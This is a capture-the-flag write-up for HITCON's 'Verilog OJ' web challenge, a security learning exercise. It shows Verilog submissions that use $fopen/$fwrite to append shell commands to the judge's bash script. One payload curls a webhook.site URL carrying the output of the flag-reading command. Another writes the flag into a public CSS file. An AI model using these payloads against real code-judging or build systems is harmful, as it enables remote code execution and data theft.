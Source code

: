 ```yaml
---
title: Verilog OJ
summary: Yes, we need Online Judge for Verilog for our Logic Design course.
tags: [HitconCTF, Web, Misc, Command Injection]
date: 2025-08-24
showtoc: true
---
```


# Verilog OJ

## Description

Yes, we need Online Judge for Verilog for our Logic Design course.

Author: t510599

[Given files](/hitconctf/verilog-oj/verilog-oj.tar.gz)

## Solution

The web application is an online platform with Verilog problems, similar to LeetCode, but focused exclusively on a single Verilog problem.

![problem](/hitconctf/verilog-oj/problem.png)

[Verilog](https://en.wikipedia.org/wiki/Verilog) is a hardware description language used to design and verify digital circuits.

To test the application, I used an AI to generate a solution to the problem and submitted the resulting Verilog code.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;
endmodule
```

Upon submitting the code, I received a score of "AC" (All Correct), indicating that the application likely executed my input.

![submission](/hitconctf/verilog-oj/submission.png)

Since I confirmed that my submission was executed, I realized I could potentially exploit this by writing Verilog code to fetch and retrieve the flag from the server using a webhook.

I then examined the application's code to identify any security measures preventing this.
Surprisingly, I found that there was no sanitization applied to the submissions.

```ruby
module VerilogOJ
  # Judge Job
  class JudgeJob
    include Sidekiq::Job

    def perform(submission_id)
      submission = Submission.first(id: submission_id)
      return if submission.nil? || submission.result != 'Q'

      dir = prepare(submission)
      result, output = judge dir
      submission.update(result: result, output: output) unless result.nil?
      FileUtils.remove_dir(dir, force: true)
    end

    def prepare(submission)
      dir = Dir.mktmpdir("submission_#{submission.id}_")
      File.write("#{dir}/testbench.v", submission.problem.testbench)
      File.write("#{dir}/module.v", submission.code)
      dir
    end

    def judge(dir) # rubocop:disable Metrics/MethodLength
      stdout, stderr, status = Timeout.timeout(15) do
        # Simplify error handling by letting iverilog and vvp fail in a single script
        script_path = File.realpath("#{File.dirname(__FILE__)}/../../scripts/judge.sh")
        # iverilog is safe to execute
        Open3.capture3("#{script_path} #{dir}")
      end

      return ['RE', stderr] unless status.exitstatus.zero?

      if !stdout.nil? && stdout.strip.lines.last == 'Passed'
        ['AC', stdout]
      else
        ['WA', stdout]
      end
    rescue Timeout::Error
      ['TLE', 'Execution timed out']
    rescue StandardError => e
      ['RE', e.message]
    end
  end
end
```

The application simply runs a bash script, which executes the submission and verifies that no errors occurred, and that the tests passed.

```sh
cd "$1"
iverilog module.v testbench.v -o judge
vvp judge
```

I then attempted to craft Verilog code that could exploit this behavior to fetch the flag.
At first, I assumed Verilog could be used like a typical programming language, but it turns out that Verilog is a hardware description language, not a general-purpose programming language.
This means you can't use typical features like executing shell commands or sending HTTP requests directly.

To understand Verilog better, I consulted a [Verilog tutorial](https://www.chipverify.com/tutorials/verilog), where I learned that while Verilog could still perform basic file operations, such as reading and writing files.

Next, I realized that I couldn’t directly read the flag because only the root user has permission to access it.
The flag is stored in a file that is only accessible by the root user.
To read it, I needed to execute the command `/readflag give me the flag`.
However, this required executing a shell command, which is not something Verilog can do directly.

But I found an interesting file to overwrite: the bash script that runs my submission.
If I could modify this script, I could append the `/readflag give me the flag` command to it, and that would allow me to access the flag.

To verify this, I wrote a Verilog submission that appends a `curl` command to send a webhook request, and after submitting it, I saw my webhook receive a request, confirming that the exploit was successful.

All I had to do now, was to add a subshell to retrieve the flag.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;

    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "curl https://webhook.site/07e78043-4cf9-4ad4-aaaa-fec865b06cde?`/readflag give me the flag`");
        $fclose(fd);
    end
endmodule
```

While it worked locally, no requests arrived when I submitted the payload remotely.
After tweaking the payload several times with no success, I contacted the organizers and was informed that the remote instance didn’t have internet access, which meant I couldn’t use a webhook to retrieve the flag.

Luckily, I quickly found a workaround.
Since I could modify a bash script, I also had the ability to modify other files, particularly static files like CSS files.
These files could be used to write the flag, which I could later retrieve through my browser.

I then opened a terminal within my Docker instance to locate a CSS file and updated my payload accordingly.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;

    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "/readflag give me the flag >> /app/app/presentation/assets/css/style.css");
        $fclose(fd);
    end
endmodule
```

This time, I was able to retrieve the flag both locally and from the remote instance.

```sh
$ curl http://localhost:9292/assets/css/style.css | tail                                 
  font-family: 'Cascadia Code', monospace;
}

code:not(pre > code) {
  background-color: #f8f9fa;
  padding: 0.2em 0.4em;
  border-radius: 4px;
}
hitcon{1_u$ed_t0_beli3v3_th4t_Judging_VeriloG_is_VERY_S@f3_Fr0m_RCE_QAQ}
```

